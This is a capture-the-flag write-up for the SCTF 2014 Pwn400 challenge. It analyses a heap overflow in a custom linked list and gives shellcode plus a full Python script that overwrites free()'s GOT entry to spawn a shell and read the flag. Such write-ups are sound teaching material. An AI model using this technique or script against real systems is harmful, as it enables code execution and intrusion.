 title: SCTF 2014 -- Pwn400
tags:
  - Pwnable
  - XCTF
  - SCTF
  - Python
  - CTF
  - heap
  - shellcode
categories:
  - write-ups
author: bruce30262
date: 2014-12-08 14:54:00
---
Similar with Pwn200, Pwn400 gave us a binary file, but no libc.so. Open it with IDA Pro and analyze it, we found some information:
<!-- more -->

First, there's a data structure ( let's call it **node** ) which look like this:

```c
struct node{
  node *this; // the address of this node
  node *prev; // the address of the previous node
  node *next; // the address of the next node
  char title[64];
  char type[32];
  char content[256];
};

```
In this program, we're allow to:
1. New a node
2. Show a node's address ( yep, no need to leak it! )
3. Edit a node's content
4. Delete a node (by giving its address)

Notice that **we can ovewrite a node's data by overflowing its previous node's content**. Moreover, after checking the function of deleting a node, we found the following code:

``` c 
if ( *(_DWORD *)ptr == ptr )
{
    if ( *(_DWORD *)a1 == ptr )
    {
        *(_DWORD *)a1 = *(_DWORD *)(*(_DWORD *)a1 + 8);
    }
    else
    {
        if ( *(_DWORD *)(ptr + 8) )
        {
            /* the unlink vulnerability */
            v1 = *(_DWORD *)(ptr + 8);
            v2 = *(_DWORD *)(ptr + 4);
            *(_DWORD *)(v2 + 8) = v1;
            *(_DWORD *)(v1 + 4) = v2;
        }
        else
        {
            *(_DWORD *)(*(_DWORD *)(ptr + 4) + 8) = 0;
        }
    }
    write(1, "succeed!\n\n", 0xAu);
    free((void *)ptr);
}

```

The vulnerability's obvious: **Heap overflow**, except it use its own data structure.

Since it doesn't enable the DEP protection, we can store our shellcode in a known memory address (**which is, in this case, a node's content**), then exploit the heap overflow vulnerability, by overwriting `free()`'s GOT, let the function pointer point to our shellcode. 

For instance:
``` c
//free's GOT entry: 0x0804a450
v1 = node->next // 0x0804a44c, because 0x0804a44c+4 = 0x0804a450  
v2 = node->prev // shellcode's address
*(_DWORD *)(shellcode's address + 8) = 0x0804a44c ; //4 bytes of shellcode will be overwritten
*(_DWORD *)(0x0804a450) = shellcode's address; // overwrite free()'s GOT

```

Note that 4 bytes in shellcode will be overwritten, so we'll have to use `jmp relative` to skip those 4 bytes machine code. Here's my shellcode:

``` python
"\x90\x90\x90\x90\x90\x90"+ # NOP
"\xeb\x08"+ # skip 8 bytes
"AAAA"+ # overwritten part
"\x90"*10+ # NOP
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80" # shell
```

So here's the exploitation:
1. New 3 nodes: node1, node2 & node3
2. Store the shellcode in node3's content
3. Get the address of node3 & node2, calculate the shellcode's address
4. Edit node1, overwrite node2's prev & next by overflowing node1's content
5. Delete node2, overwrite `free()`'s GOT,  execute the shellcode & capture the flag
    
Here's the python script. Due to the connection problem, it has to wait 1 second before it recieve server's response.

``` python pwn400.py
from socket import *
import time
import binascii

sock = socket(AF_INET, SOCK_STREAM)
sock.connect(("218.2.197.248", 10003))

shell = "\x90\x90\x90\x90\x90\x90"+"\xeb\x08"+"AAAA"+"\x90"*10+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80"

print sock.recv(1024)

#insert node1
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)

#insert node2
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)

#insert node3
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send(shell+"\n") #write shellcode to node3's content
time.sleep(1)
print sock.recv(1024)

#show node 3 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
res = sock.recv(1024)
print res

#calculate shellcode's address
index = res.index("0x")
temp = res[index:index+10:]
shellcode_addr = int(temp, 16)+108
print "shellcode address: ", hex(shellcode_addr)
shellcode_addr_str = binascii.a2b_hex(hex(shellcode_addr)[2:10:].zfill(8))
print shellcode_addr_str

#show node 2 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
res = sock.recv(1024)
print res

index = res.index("0x")
temp = res[index:index+10:]
address = int(temp, 16)
del_addr = hex(address)[2::]
print "node2 address:", del_addr
node2_addr_str = binascii.a2b_hex(hex(address)[2:10:].zfill(8))
print node2_addr_str 

#BBBB: offset
#free()'s GOT: 0x0804a450, we send 0x0804a44c
exploit = "A"*256+"BBBB"+node2_addr_str[::-1]+shellcode_addr_str[::-1]+"\x4c\xa4\x04\x08"

#edit node 1
sock.send("4\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send(exploit+"\n") #overflow node1's content
time.sleep(1)
print sock.recv(1024)

#delete node 2
sock.send("5\n")
time.sleep(1)
print sock.recv(1024)
sock.send(del_addr+"\n")
time.sleep(1)
print sock.recv(1024)

sock.send('cat /home/pwn3/flag/flag\n') #capture the flag
time.sleep(1)
print sock.recv(1024)

sock.close()
```

The "BBBB" in the exploit is a 4 bytes data between each node. It actually is the meta data of a chunk. The `free()` function will check the meta data before it free the memory of a node. If the meta data isn't correct, the program will crash. But since we overwrite `free()`'s GOT, that meta data's no longer a problem.

flag: `SCTF{2318540E78446A0E84EF69685092F0C3}`
